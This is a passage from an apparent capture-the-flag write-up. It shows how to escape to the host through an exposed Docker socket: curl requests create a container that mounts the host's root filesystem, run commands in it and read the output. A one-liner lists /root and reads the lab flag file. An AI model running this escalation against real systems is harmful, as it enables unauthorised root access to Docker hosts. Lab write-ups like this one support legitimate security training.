 #### Get Results

At this point, the `Cmd` has already run. I'll use the
`/containers/$id/logs`
[API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerLogs):



    root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/0af5/logs?stderr=1&stdout=1"total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap



I'll set both `stderr` and `stdout` to 1 to requests both, and then the
results come back showing the contents of `/root`!

#### One-Liner

To play with this, I generated the following one-liner so that I could
just push up-arrow, change the command, and then hit enter and get
results:



    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap



From here I can grab `root.txt` by just changing the command:



    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/root/root.txt"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    24d5f49db9f24f6e87b35ebe1c53e796



### Run Commands w/ Host FS \[Method #2\]

This box seems to be clearing out containers every few minutes. Because
of that, I preferred to use the above method to just create a new
container each command. That said, in an engagement where OPSEC mattered
more, I'd create one instance, and then run commands using the `exec`
[API](https://docs.docker.com/engine/api/v1.30/#tag/Exec).
